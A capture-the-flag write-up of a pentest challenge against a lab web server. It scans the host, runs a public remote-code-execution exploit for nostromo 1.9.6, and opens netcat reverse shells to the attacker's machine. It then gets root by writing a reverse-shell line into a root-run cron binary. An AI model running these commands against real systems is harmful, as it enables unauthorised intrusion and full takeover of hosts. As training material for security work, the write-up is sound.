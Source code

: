 ## My First Blog
### Category : Network/Pentest

This was a pretty interesting challenge, a proper HackTheBox style, where you need root access to get the flag. 

So we start by logging into our given VPN using the OVPN profile.

We also know the IP of the blog. `http://172.30.0.2/`

So, we start by running a nmap serivec and port scan of the host.

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nostromo 1.9.6
|_http-generator: Hugo 0.54.0
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nostromo 1.9.6
|_http-title: My first blog!
```

Checking out the page, we don't find anything interesting. But, the server `nostromo 1.9.6` from the nmap scan seems like the target, and searchsploit seems to agree.

```
searchsploit nostromo
--------------------------------------------- ----------------------------------
 Exploit Title                               |  Path
                                             | (/opt/exploitdb/)
--------------------------------------------- ----------------------------------
Nostromo - Directory Traversal Remote Comman | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution       | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal  | exploits/linux/remote/35466.sh
--------------------------------------------- ----------------------------------
Shellcodes: No Result
```

So, we have a RCE vulnerability with the server. 

Using the exploit to test it's working
```
$ python exploit.py 172.30.0.2 80 ls


                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    


HTTP/1.1 200 OK
Date: Sun, 22 Mar 2020 07:39:31 GMT
Server: nostromo 1.9.6
Connection: close


bash
bunzip2
bzcat
bzcmp
bzdiff
bzegrep
bzexe
bzfgrep
bzgrep
bzip2
bzip2recover
bzless
bzmore
cat
chgrp
chmod
chown
cp
dash
date
dd
df
dir
dmesg
dnsdomainname
domainname
echo
egrep
false
fgrep
findmnt
grep
gunzip
gzexe
gzip
hostname
kill
ln
login
ls
lsblk
mkdir
mknod
mktemp
more
mount
mountpoint
mv
nc
nc.traditional
netcat
nisdomainname
pidof
ps
pwd
rbash
readlink
rm
rmdir
run-parts
sed
sh
sh.distrib
sleep
stty
su
sync
tar
tempfile
touch
true
umount
uname
uncompress
vdir
wdctl
which
ypdomainname
zcat
zcmp
zdiff
zegrep
zfgrep
zforce
zgrep
zless
zmore
znew
```

So I use this exploit to get a more permanent reverse shell. Since we have nc available,
I use the payload 

On the remote machine
```
nc -e /bin/bash 172.30.0.14 1234
```

On my host
```
nc -lvp 1234
```

Since our aim is to get a root access, I use the [LinuxSmartEnum.sh](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh) script. 

To upload the script we need a writable directory.

```
find /var/nostromo -writable
./logs
./logs/access_log
./logs/nhttpd.pid
./conf
./conf/mimes
./conf/nhttpd.conf-dist
./conf/nhttpd.conf
./htdocs
./htdocs/nostromo.gif
./htdocs/cgi-bin
./icons
./icons/file.gif
./icons/dir.gif
```

I use the logs directory for now. 

To upload the script, I use netcat to do the job. 

On Machine 
```
nc -lvp 1234 -q1 > lse.sh < /dev/null
```

On my host 
```
cat lse.sh | nc 172.30.0.2 1234
```

On running lse.sh we find 

```
[!] ret060 Can we write to executable paths present in cron jobs........... yes!
---
/etc/crontab:* * * * * root /usr/bin/healthcheck
---
[i] ret400 Cron files...................................................... skip
```

So we can write to /usr/bin where healthcheck is present, and is executed by root every minute as a cronjob! 

So we `echo "nc -e /bin/sh 172.30.0.14 1235" > healthcheck` and run a nc listener on our host.

Wait for a minute.....


```
$ nc -lvp 1235
Listening on [0.0.0.0] (family 0, port 1235)
ls
Connection from 172.30.0.2 40926 received!
flag.txt
cat flag.txt
gigem{l1m17_y0ur_p3rm15510n5}
```

And done!